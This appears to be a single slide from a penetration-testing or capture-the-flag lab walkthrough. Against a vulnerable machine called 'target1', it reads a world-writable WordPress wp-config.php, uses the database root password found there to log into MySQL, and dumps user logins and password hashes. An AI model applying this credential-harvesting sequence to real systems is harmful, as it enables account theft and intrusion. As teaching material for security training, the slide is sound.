

# Exploitation:  Reading is magical
michael@target1:/var/www/html/wordpress$ ls -l
-rw-rw-rw-  1 www-data www-data  3134 Aug 12  2018 wp-config.php

// ** MySQL settings ** //
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'R@v3nSecurity');
define('DB_HOST', 'localhost');

michael@target1:/var/www/html/wordpress$ mysql -u root -h localhost -pR@v3nSecurity

mysql> use wordpress
mysql> select id,user_login,user_pass from wp_users;
+----+------------+------------------------------------+
| id | user_login | user_pass                          |
+----+------------+------------------------------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ |
+----+------------+------------------------------------+
10